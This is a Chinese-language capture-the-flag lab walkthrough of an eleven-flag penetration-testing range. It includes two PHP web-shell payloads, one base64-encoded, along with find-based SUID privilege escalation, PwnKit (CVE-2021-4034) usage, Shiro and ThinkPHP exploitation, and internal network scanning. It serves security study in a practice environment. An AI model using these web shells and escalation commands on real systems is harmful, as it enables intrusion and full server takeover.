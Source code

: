 ## 第一个flag（F12）

进来发现是个语言教程的场景，web第一步，f12开启！
 [![img](assets/2999875-20221010195101975-1503837602.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010195101975-1503837602.png)

## 第二个flag(后台扫描、php修改代码写shell)

果然一眼丁真，他说第二个flag要管理员才能拿，就想着拿一下权限试试
 在刚进来的一开始我们就发现了这是个语言教程的场景的靶场，而这种靶场是需要语言运行环境，若权限设置不当，很容易造成rce，于是直接找到我们的老朋友PHP，简单尝试一下，果然可以！
 [![img](assets/2999875-20221010200019540-465545283.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200019540-465545283.png)

于是乎拿出珍藏已久的payload一打，这两个都是可以的



```
<?php
fputs(fopen("shell.php","w"),'<?php eval($_POST[123]);?>');
?>

<?php
system("echo PD9waHAgQGV2YWwoJF9QT1NUWzFdKTs/Pg== | base64 -d >0vers1eep.php & ls");
?>
```

[![img](assets/2999875-20221018191407322-934907500.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018191407322-934907500.png)

拿蚁剑进行连接
 [![img](assets/2999875-20221018191519285-1535233469.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018191519285-1535233469.png)
 也是成功上线,(但是最后发现是我理解错误，他说的管理员权限是登录网站后台，而我误以为是拿到权限)
 于是去尝试登录网站后台
 直接在url后加admin
 账号密码：admin/admin，即可成功登录后台拿取第二个flag
 [![img](assets/2999875-20221010200754411-478909158.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200754411-478909158.png)

## 第三个flag

根据提示在根目录，去根目录进行翻找（前面已经拿到权限）
 [![img](assets/2999875-20221010200948382-1965863365.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010200948382-1965863365.png)
 第三个flag get！

## 第四个flag(查找数据库配置文件、连接数据库)

根据提示下一个在数据库和root权限下，我们先用哥斯拉尝试连接翻找数据库
 用哥斯拉生成一个后门文件，通过蚁剑把后门文件上传到后台，在数据库翻找一下配置文件
 [![img](assets/2999875-20221010202428905-1102813527.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202428905-1102813527.png)
 找到后配置一下
 [![img](assets/2999875-20221010202458386-614696897.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202458386-614696897.png)
 即找到数据库flag
 [![img](assets/2999875-20221010202544213-448422316.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221010202544213-448422316.png)

## 第五个flag（pwn）

不大会（有懂的师傅可以教教）

## 第六个flag(内网、目录扫描、代理搭建)

开始我们的内网之旅！
 上传fscan扫描一波，用到的语句如下
 上传文件fscan_386



```
chmod 777 fscan_386                       //给文件加权限
ifconfig                                  //看ip地址
./fscan_386 -h 192.168.0.2/24 -o 0vers1eep.txt   //开扫！并把扫描结果放到一个名为0vers1eep.txt的文件里
```

[![img](assets/2999875-20221018192034141-1489761659.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018192034141-1489761659.png)
 成功导出0vers1eep.txt文件，接下来就是开代理上内网
 我用的是neoreg和Proxifier代理（此工具使用就不演示了，有问题可私聊我一下）
 成功登录内网
 [![img](assets/2999875-20221018193400868-1989915056.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018193400868-1989915056.png)
 我们拿御剑等扫描工具扫一下
 [![img](assets/2999875-20221018193631907-1468177882.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221018193631907-1468177882.png)
 成功在robots.txt文件中发现第六个flag

## 第七个flag（shiro）

尝试弱口令登录并抓包
 [![img](assets/2999875-20221019115743089-1058397739.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019115743089-1058397739.png)
 结果意外发现rememberMe=deleteMe，可能存在shiro反序列
 于是利用利用工具一把梭哈
 [![img](assets/2999875-20221019115654207-787433675.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019115654207-787433675.png)
 生成后门尝试连接
 [![img](assets/2999875-20221019120009494-601631243.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019120009494-601631243.png)
 连接上去发现第七个flag

## 第八个flag(find suid提权)

我们继续基本思路，尝试提权
 先查看确定flag的路径
 [![img](assets/2999875-20221019142322274-1500132359.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142322274-1500132359.png)
 可见`/home`下的flag我们已经获取，就差`/root`权限下的flag
 我们尝试使用suid提权进行查看flag



```
find anyfile -exec whoami \;             //anyfile：在你所在的目录文件下的任意文件
find anyfile -exec cat /root/flag  \;    
```

[![img](assets/2999875-20221019142541562-2086537416.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142541562-2086537416.png)
 成功提权
 查看flag
 [![img](assets/2999875-20221019142621775-322955582.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019142621775-322955582.png)
 成功获取flag

## 第九个flag（thinkphp RCE）

根据基本思路（普通用户—>后台用户—>数据库—>root提权），上个站的flag也基本拿完了，于是我们换下一个站继续
 [![img](assets/2999875-20221019112050685-1873711736.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112050685-1873711736.png)
 直接上尚方宝剑
 [![img](assets/2999875-20221019112217049-2103908400.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112217049-2103908400.png)
 蚁剑连接后直接拿下flag
 [![img](assets/2999875-20221019112257817-1081638872.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019112257817-1081638872.png)

## 第十个flag(翻数据库)

依旧是换汤不换药
 哥斯拉连接数据库，查看flag
 [![img](assets/2999875-20221019113714938-168564233.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019113714938-168564233.png)
 成功拿下，根据提示继续拿root权限

## 第十一个flag（CVE-2021-4034-pwnKit提权）

得拿下root权限，这里需要用到CVE-2021-4034
 上传payload文件后



```
chmod 777 PwnKit                  //加权限
./PwnKit 'cat /root/flag'         //查看flag  
```

即可得到最后一个flag
 [![img](assets/2999875-20221019114515629-1210059629.png)](https://img2022.cnblogs.com/blog/2999875/202210/2999875-20221019114515629-1210059629.png)
 到这里，一次愉快的靶场渗透之旅就结束了！！！
 **总结**
 要形成一个渗透的基本思路：简单来说就是，想尽办法从低权限到高权限。
 不要局限与一种方法，尝试多种方法来达到自己的想要的结果。
 多尝试，多动手，多思考。
 读万卷书，行万里路！